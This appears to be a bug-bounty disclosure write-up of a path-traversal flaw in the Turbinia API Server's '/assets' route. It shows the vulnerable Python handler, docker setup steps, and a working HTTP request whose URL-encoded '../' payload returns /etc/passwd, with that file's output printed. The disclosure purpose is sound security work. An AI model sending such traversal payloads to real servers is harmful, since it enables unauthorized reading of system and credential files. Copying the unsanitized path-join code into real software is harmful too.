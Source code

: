```yaml
---
layout: post
title:  "Google: Local File Inclusion in Turbinia API Server"
date:  2024-05-08 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Local File Inclusion in Turbinia API Server

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)


## Description

A local file inclusion is present in the Turbinia API Server when requesting resource files under the `/assets/{catchall:path}` route.

## Proof of Concept

The [route](https://github.com/google/turbinia/blob/1da2d19f9b79dac8df37bdf2ed4f9d5d0797607b/turbinia/api/routes/ui.py#L47) `/assets/{catchall:path}` is used for serving CSS and JS resources for Turbinia Web service. The `catchall` parameter in url is not sanitized before appended to base path, an attacker can use `../` to escape base directory and locate any file on system which will be sent back to the attacker, causing local file inclusion issue.

```
@ui_router.get(
    '/assets/{catchall:path}', name='assets', include_in_schema=False)
async def serve_assets(request: Request):
  """Serves assets content."""
  static_content_path = pathlib.Path(_config.WEBUI_PATH).joinpath('dist/assets')
  path = request.path_params['catchall']
  file = static_content_path.joinpath(path)
  if os.path.exists(file):
    return FileResponse(file)

  raise HTTPException(status_code=404, detail='Not found')
```

### Steps to reproduce

Following official [docker tutorial](https://turbinia.readthedocs.io/en/latest/user/install.html#docker-installation) to set up the Turbinia service:

```
git clone https://github.com/google/turbinia.git
cd turbinia
mkdir -p ./conf && mkdir -p ./tmp && mkdir -p ./evidence && mkdir -p ./certs && chmod 777 ./conf ./tmp ./evidence ./certs
sed -f docker/local/local-config.sed turbinia/config/turbinia_config_tmpl.py > conf/turbinia.conf
```
Then, edit the `./docker/local/docker-compose.yml`, in `turbinia-api-server` section, expose Turbinia API Server port `8000` to host mechine by adding `ports: - "8000:8000"`:

```
...
turbinia-api-server:
        #image: "turbinia-api-server-dev" # Use this for local development and comment out below line
        image: "us-docker.pkg.dev/osdfir-registry/turbinia/release/turbinia-api-server:latest" # Latest stable
        container_name: turbinia-api-server
        depends_on:
            - redis
        volumes:
            - $PWD/evidence:/evidence
            - $PWD/conf/turbinia.conf:/etc/turbinia/turbinia.conf
        environment:
            - LC_ALL=C.UTF-8
            - LANG=C.UTF-8
            - TURBINIA_EXTRA_ARGS=${TURBINIA_EXTRA_ARGS}
        expose:
            - "8000"
        ports:
            - "8000:8000"
...
```
Finally, bring up the local Turbinia stack:

```
docker-compose -f ./docker/local/docker-compose.yml up
```

After service up, the Turbinia API Server will listen on `http://127.0.0.1:8000`. Open the webpage `http://127.0.0.1:8000` in browser and intecept requests using burp suite or chrome devtools. We can capture following request:

```
GET http://127.0.0.1:8000/assets/index-a76ac6aa.js HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: fakesession=hello
Origin: http://0.0.0.0:8000
Pragma: no-cache
Referer: http://0.0.0.0:8000/web
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Postman-Token: 0ee2337d-af8f-4873-afd8-91a9c27897b1
Host: 127.0.0.1:8000
Accept-Encoding: gzip, deflate
Connection: close
```

Modify the request by change `index-a76ac6aa.js` part to `..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd` which is `../../../../../../etc/passwd` url-encoded content.

```
GET http://127.0.0.1:8000/assets/..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: fakesession=hello
Origin: http://0.0.0.0:8000
Pragma: no-cache
Referer: http://0.0.0.0:8000/web
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Postman-Token: 0ee2337d-af8f-4873-afd8-91a9c27897b1
Host: 127.0.0.1:8000
Accept-Encoding: gzip, deflate
Connection: close
```

Or just open link: `http://127.0.0.1:8000/assets/..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd` in browser.

The output is the contents of the `/etc/passwd` file:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
turbinia:x:999:999::/home/turbinia:/sbin/nologin
```

![Turbinia](/assets/cve/niceui.png)

## Impact

Any file on the backend filesystem can be read by an attacker with access to the Turbinia API Server website.


## Reference

[https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67](https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67)

## Occurrences

[https://github.com/google/turbinia/blob/1da2d19f9b79dac8df37bdf2ed4f9d5d0797607b/turbinia/api/routes/ui.py#L53](https://github.com/google/turbinia/blob/1da2d19f9b79dac8df37bdf2ed4f9d5d0797607b/turbinia/api/routes/ui.py#L53)
